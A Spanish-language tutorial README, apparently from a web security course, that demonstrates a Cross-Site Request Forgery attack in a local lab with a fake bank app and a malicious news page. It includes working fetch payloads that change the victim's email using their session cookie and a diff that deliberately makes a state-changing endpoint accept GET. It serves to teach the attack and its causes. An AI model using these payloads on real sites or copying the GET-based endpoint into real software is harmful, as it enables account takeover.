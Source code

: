 # 03 CSRF

CSRF(Cross-Site Request Forgery) es un tipo de ataque que engaña al usuario para que ejecute acciones no deseadas en una aplicación web en la que está auntenticado. El atacante se aprovecha de la confianza que el usuario tiene en la aplicación y la utiliza para realizar acciones en su nombre. CSRF utiliza esta confianza para enviar una petición a la aplicación con la cookie de sesión. La aplicación web no tiene forma de distinguir entre una solicitud legítima y una solicitud CSRF, por lo que procesa la solicitud como si viniera del usuario.

En este ejemplo vamos a ver como se puede realizar un ataque CSRF, los errores que se pueden cometer al crear una aplicación web y como se puede evitar este tipo de ataques.

# Manos a la obra

## Instalación

Hacemos un _npm install_ en el directorio de trabajo que es el 03-CSRF e instalamos todas las dependencias de las 3 apps.

```
npm install
```

Podemos arrancar las apps con _npm start_, o arrancarlas mejor individualmente para ver el mensaje por la consola de la app de backend cuando se produzca el ataque.

```
npm start

```

Abrimos el navegador y accedemos a la app de frontend en la ruta http://localhost:1234

<img src="./assets/01.png" style="zoom:67%;" />

Una vez que arrancamos el frontend y el backend de mybank, podemos logearnos usando:

```
email: user@email.com
password: test
```

Ya logeado podemos inspeccionar las _dev tools_ para ver que dentro de _Application_ tenemos almecenada nuestra cookie.

<img src="./assets/02.png" style="zoom:67%;" />

Arrancamos a _frontend-chupichuli_ desde otra terminal.

_.03-CSRF/frontend-chupichuli_

```bash
npm start
```

Abrimos nuestro navegador en la ruta http://localhost:1235, aquí vamos a simular que nos han enviado un correo con un enlace malicioso.
Hemos creado un enlace que nos redirige a una fake web de noticias que nos simula el ataque CSRF.

Dentro de la la ruta _frontend-chupilchuli/src/index.html_, tenemos un fetch comentado. Como está ahora mismo sería seguro y no se relaizaría el CSRF.

```javascript
 <script>
    // Esto es CSRF con post
    fetch("/api/security/edit", {
      method: "POST",
      credentials: "include",
      headers: {
        "Content-Type": "application/json",
      },
      body: JSON.stringify({
        email: "hack@hacker.com",
      }),
  </script>
```

Si entramos en las _dev tools_ en la consola nos dice que el servidor ha respondido con un 405, método no permitio y no se ha podido realizar la petición. Es decir, estamos seguros que no se ha realizado el ataque.

<img src="./assets/03.png" style="zoom:67%;" />

Ahora vamos a hacer la simulación de utilizar el método GET, en vez del método POST para realizar peticiones que modifican datos en el servidor, ya que mucha gente en el día de hoy siguen utilizándolo para esto.

Este cambio es un error, ya que el método GET no debería modificar datos en el servidor. Si utilizamos el método GET para realizar una petición que modifica datos en el servidor, estamos abriendo la puerta a un ataque CSRF.

Vamos a refactorizar nuestro código:

_frontend-chupilchuli/src/index.html_

```diff
<script>
-       Esto es CSRF con post
-       fetch("/api/security/edit", {
-         method: "POST",
-         credentials: "include",
-         headers: {
-           "Content-Type": "application/json",
-         },
-         body: JSON.stringify({
-           email: "hack@hacker.com",
-         }),
-       });
+       Esto es CSRF con get
+      fetch("http://localhost:3000/api/security/edit?" +
+        new URLSearchParams({
+                    email: "hack@hacker.com",
+        }), {
+        method: "GET",
+        credentials: "include",
+      })
+        .then((response) => response.text())
+        .then((text) => console.log(text))
+        .catch((error) => console.log(error));
    </script>
```

Y vamos a nuestro backend a _backend-mybank/src/pods/security/security.rest-api.js_ al _endpoint_ de _edit_, y cambiamos el método _post_ por _get_.

_backend-mybank/src/pods/security/security.rest-api.js_

```diff
- .post("/edit", authenticationMiddleware, async (req, res, next) =>
+ .get("/edit", authenticationMiddleware, async (req, res, next) => {
    try {
      const newUserEmail = await userRepository.updateEmail(
        req.userSession?.id,
        req.body.email
      );
      console.log(
        `User ${req.userSession?.id} email changed to ${newUserEmail}`
      );
      res.send("Email changed");
    } catch (error) {
      next(error);
    }
  });

```
Volvemos a repetir la simulación de la apertura de nuestra aplicación maliciosa, y vemos que en la consola del _backend_ de _mybank_ nos aparece el mensaje de que el email ha sido cambiado.

<img src="./assets/04.png" style="zoom:67%;" />

Ahora podríamos entrar en he perdido mi contraseña y cambiarla sin ningún problema y hacer en la aplicación de _mibank_ lo que quisiéramos.
